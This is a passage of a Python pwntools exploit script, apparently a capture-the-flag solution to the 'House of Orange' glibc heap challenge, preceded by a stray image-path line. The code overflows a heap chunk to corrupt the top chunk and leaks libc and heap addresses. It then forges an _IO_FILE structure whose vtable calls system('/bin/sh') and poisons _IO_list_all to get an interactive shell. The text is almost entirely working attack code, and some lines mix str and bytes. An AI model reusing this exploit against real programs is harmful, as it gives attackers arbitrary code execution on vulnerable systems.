 ```python
	r.recvuntil("Your choice : ")
	r.sendline('3')
	r.recvuntil("Length of name :")
	r.sendline(str(size))
	r.recvuntil("Name:")
	r.send(content)
	r.recvuntil("Price of Orange:")
	r.sendline(str(price))
	r.recvuntil("Color of Orange:")	
	r.sendline(str(color))

def dbg():
	gdb.attach(r)
	pause()

add(0x30,b'aaaa',0x1234,0xDDAA)
payload=b'a'*0x30+p64(0)+p64(0x21)+p64(0x0000ddaa00001234)+p64(0)+p64(0)+p64(0xf81)
edit(len(payload),payload,0x1234,0xDDAA)
add(0x1000,b'bbbb',0x1234,0xDDAA)
dbg()
add(0x400,b'aaaaaaaa',0x1234,0xDDAA)
context.log_level='debug'
show()

libc_base=u64(r.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))-0x3c5188
system=libc_base+0x453a0
_IO_list_all=libc_base+0x3c5520

#print(f"libc_base is {libc_base},system is {system},_IO_list_all is {_IO-list_all}")

edit(0x10,b'b'*0x10,0x1234,0xDDAA)
show()
r.recvuntil('b'*0x10)
heap = u64(r.recvuntil('\n').strip().ljust(8, '\x00'))
heap_base = heap - 0xE0

payload = 'a' * 0x400 + p64(0) + p64(0x21) + p32(666) + p32(0xddaa) + p64(0)
fake_file = '/bin/sh\x00'+p64(0x61)#to small bin
fake_file += p64(0)+p64(_IO_list_all-0x10)
fake_file += p64(0) + p64(1)#_IO_write_base < _IO_write_ptr
fake_file = fake_file.ljust(0xc0,'\x00')
fake_file += p64(0) * 3
fake_file += p64(heap_base+0x5E8) #vtable ptr
fake_file += p64(0) * 2
fake_file += p64(system)
payload += fake_file
edit(len(payload), payload, 666, 2)
#pause()
r.recvuntil("Your choice : ")
r.sendline('1')

r.interactive()
```
